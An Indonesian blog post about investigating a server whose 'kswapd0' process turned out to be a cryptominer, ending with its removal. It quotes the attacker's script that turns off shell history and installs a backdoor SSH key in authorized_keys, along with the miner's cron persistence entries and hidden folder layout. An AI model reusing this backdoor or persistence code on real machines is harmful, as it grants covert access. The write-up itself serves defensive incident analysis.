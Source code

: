 ```yaml
---
title: How to Deal With High CPU Usage kswapd0 on Linux
lang: id-ID
description: High CPU Usage pada aplikasi kswapd0 bisa berarti SWAP atau bahkan Mining.
image: /images/covers/how-to-deal-with-kswapd0-on-linux.jpg
published: 09/30/2020, 10:55:23 AM
category: devops
author: Ryan Aunur Rassyid
tags: kswapd0,ubuntu,linux,debian,cpu,production,server
meta:
  - name: keywords
    content: kswapd0,ubuntu,linux,debian,cpu,production,server
feed:
  enable: true
---
```

# How to Deal With High CPU Usage kswapd0 on Linux

<Author name="Ryan Aunur Rassyid" />
<FeaturedImage 
  src="/images/covers/how-to-deal-with-kswapd0-on-linux.jpg"
  author="Jase Bloor"
  source="unsplash.com"
  sourceLink="https://unsplash.com/photos/By1VMCg3K4I" />

## Introduction
Beberapa waktu yang lalu penulis sempat menghandle Project yang menggunakan server fisik (bukan VPS). Server tersebut menggunakan Ubuntu 16.04 sebagai *Operating System*-nya. Namun OS yang dipakai tidak sama dengan OS yang penulis pakai setiap kali deploy VPS, padahal versi Ubuntu yang dipakai sama persis yaitu Ubuntu 16.04 tapi serasa seperti Debian. Banyak package package yang hilang atau tidak ada padahal package tersebut seharusnya ada di OS tersebut bahkan fresh install sekalipun. 

Aplikasi berjalan baik dan tanpa kendala, hanya saja berjalan agak pelan untuk ukuran server dengan prosessor 8 core tersebut. Seharusnya aplikasi berjalan lebih baik bukan?. Oke mulai mulai dari sini mulai curiga. Apakah server menjalankan aplikasi lain yang menyebabkan aplikasi lain tidak memiliki cukup resource yang dipakai atau aplikasi yang kita kerjakan memang lamban. Akhirnya investigasi dimulai.

## Table of Contents
[[toc]]

## Apa itu kswapd0?
Singkat cerita ditemukan akar masalahnya, yaitu aplikasi **kswapd0** yang berjalan menggunakan resource CPU 100% terus menerus. Ini sangat tidak wajar untuk aplikasi yang mengatur dan me-*manage* SWAP atau virtual memory pada Linux. Karena ini hal baru yang belum pernah penulis jumpai selama memakai SWAP di Linux, jadi penulis mencoba mengumpulkan informasi dari semua forum-forum apa itu *kswapd0* dan mengapa memakan resource CPU yang banyak.

Ada forum yang berpendapat bahwa kejadian ini adalah bug dari linux yang harusnya sudah di-fix di versi yang baru sedangkan ada beberapa orang berpendapat bahwa ini disebabkan oleh server yang menggunakan hardisk dari pada SSD sebagai SWAP sehingga CPU dan Hardisk dipaksa bekerja dengan semaksimal mungkin. Team memutuskan untuk upgrade versi package yang kadarluasa dengan menjalankan `apt get upgrade`. Dan bener saja banyak package yang diupgrade pada waktu itu. Namun ini tidak menuntaskan masalah, **kswapd0** tetap berjalan.

![kswapd0 terlihat berjalan di aplikasi monitoring htop](https://telegra.ph/file/2b542fc07f6a6a176c072.jpg)
*Aplikasi kswapd0 terlihat berjalan di aplikasi monitoring htop*

### What now?
Akhirnya kami putuskan untuk menghapus SWAP dari pada penggunaan CPU terus dipakai tanpa ampun. Setelah dihapus apakah masalah ini selesai? sayangnya tidak. Aplikasi tersebut masih berjalan bahkan tanpa adanya SWAP. Lalu apa sebenernya eksistensi dari aplikasi ini?. Akhirnya penulis putuskan untuk investigasi mendalam dan mencoba mengumpulkan informasi lagi di forum. Kali ini penulis mendapatkan secercah cahaya apa maksud dari semua ini. Setelah membaca log Cron Job yang mencurigakan akhirnya didapati pertanyaan yang related dengan masalah ini.

:::: preview https://askubuntu.com/questions/1161003/strange-cron-job-takes-up-100-of-cpu-ubuntu-18-lts-server

::: preview-content Strange Cron Job takes up 100% of CPU Ubuntu 18 LTS Server - Ask Ubuntu
I keep getting weir cron jobs showing up and I have no clue what they do. I typically issue kill -9  to stop them. They take up 100% of my CPU and can run for days until I check. Does anyone know w...

askubuntu.com
:::
::: preview-thumbnail https://cdn.sstatic.net/Sites/askubuntu/Img/apple-touch-icon@2.png?v=c492c9229955
:::
::::

Usut punya usut ternyata aplikasi tersebut adalah aplikasi **Crypto Mining**. Siapa sangka aplikasi ini bisa masuk pada sistem operasi linux yang baru di install. Aplikasi Crypto Mining sendiri adalah aplikasi yang menjalankan proses mining (memecahkan algoritma rumit) yang memerlukan sebuah resource khususnya CPU atau GPU. Keuntungan yang didapat dari mining adalah Cryptocurrency atau mata uang digital. Karena aplikasi ini berjalan tanpa izin dan dijalankan pada komputer atau server orang lain maka aplikasi ini termasuk tindakan yang merugikan orang lain. Aplikasi ini berjalan tanpa henti dan menggunakan semua resource CPU yang ada hingga 100% yang bisa memperpendek umur prosessor karena dipaksa melakukkan pekerjaan keras dalam waktu lama dan terus menerus.

### Menghapus aplikasi
Tidak ada faedahnya membuat aplikasi ini tetap berada di server. Alih alih membiarkan aplikasi tetap berjalan saya memilih untuk menghapus aplikasi ini. Sebelum itu saya lebih penasaran bagaimana aplikasi ini bisa masuk. Asumsi awal adalah aplikasi ini masuk dengan cara SCP atau transfer remote file melalui SSH. Kok bisa? bisa, karena di SSH folder `$HOME/.ssh/` ada file `authorized_keys` yang artinya orang bisa mengakses server kapan saja tanpa password karena Linux mempercayai sepenuhnya pelaku. Dan ini bisa terjadi karena OS yang di-install bukan dari OS resmi dari Ubuntu atau Debian dengan kata lain injected. File instalasi OS bisa saja di susupi script untuk membuat `authorized_keys` seperti berikut.

```bash
set +o history
export PATH=/home/user/.bin:$PATH
cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod 700 .ssh && cd .ssh && chmod 600 authorized_keys && cd ~
```

Setelah pelaku sudah memiliki akses ke server kita melalui ssh, selanjutnya pelaku tinggal mengirim file mining tersebut ke server kita dan menjalankan nya dengan cron job. Kenapa cron job? karena disini aplikasi akan mendeteksi apakah aplikasi mining nya berjalan atau tidak. Apabila aplikasi dihentikan paksa dengan `kill -9 PID` misalnya, maka aplikasi akan kembali berjalan setelah beberapa menit. Dan jika file aplikasi di hapus maka secara otomatis aplikasi akan di sync untuk mendapatkan file crypto mining dan menjalankannya kembali. Terdengar menarik bukan.

```bash
1 1 */2 * * /home/user/.configrc/a/upd>/dev/null 2>&1
@reboot /home/user/.configrc/a/upd>/dev/null 2>&1
5 8 * * 0 /home/user/.configrc/b/sync>/dev/null 2>&1
@reboot /home/user/.configrc/b/sync>/dev/null 2>&1  
0 0 */3 * * /tmp/.X25-unix/.rsync/c/aptitude>/dev/null 2>&1
```

Dan ini adalah struktur folder dari folder aplikasi tersebut disimpan `$HOME/.configrc`. Nama folder yang cukup meyakinkan untuk tidak di cek, karena kita akan berfikir bahwa folder ini mungkin bagian dari folder `.config` yang hanya berisi config dari aplikasi-aplikasi di linux.

```
.
├── a
│   ├── a
│   ├── bash.pid
│   ├── dir.dir
│   ├── init0
│   ├── kswapd0
│   ├── run
│   ├── stop
│   └── upd
├── b
│   ├── a
│   ├── dir.dir
│   ├── run
│   ├── stop
│   └── sync
├── cron.d
└── dir2.dir
```

Setelah aplikasi di berhentikan dan dihapus dari server, penggunaan resource CPU menjadi normal kembali. Untuk meyakinkan bahwa program tersebut sudah tidak aktif kembali dan semua file dan service sudah dihapus dan berhenti, kami menunggu untuk beberapa saat. Yes, aplikasi tidak berjalan kembali dan di monitoring system juga tidak nampak keanehan kembali.

### Virus Total
Kita pastikan kembali bahwa ini adalah aplikasi Crypto Mining dengan cara upload file **kswapd0** tersebut ke website [virustotal](https://www.virustotal.com/gui/file/fd9007df08c1bd2cf47fb97443c4d7360e204f4d8fe48c5d603373b2b2975708/detection). Hasilnya dipastikan bahwa ini bukan file **kswapd0** yang asli atau bawaan Linux melainkan aplikasi Crypto Mining.

![Hasil scan pada website VirusTotal.com](https://telegra.ph/file/9c9b44a1073398b6c30a5.png)
*Hasil scan pada website [VirusTotal.com](https://www.virustotal.com/gui/file/fd9007df08c1bd2cf47fb97443c4d7360e204f4d8fe48c5d603373b2b2975708/detection)*

## Kesimpulan
Sebuah aplikasi yang menggunakan resource berlebih apalagi CPU perlu kita curigai dan usut sampai tuntas apa yang menyebabkan ia menggunakan CPU dengan tidak normal seperti itu. Dalam kasus ini aplikasi bernama **kswapd0** ini menjelma menjadi sebuah aplikasi yang cukup *make sense* untuk menggunakan resource besar tapi *behavior* dari aplikasi ini sendiri tidak seperti pada umunya. 

Dari sini kita bisa mengambil pelajaran bahwa jangan langsung percaya dengan apa yang kita lihat. Sebelum ada bukti yang kuat kita tidak bisa mengatakan bahwa aplikasi ini baik baik saya dan berjalan sebagaimana mestinya. Bisa jadi aplikasi tersebut sedang menyamar menjadi aplikasi lain.

<Disqus />

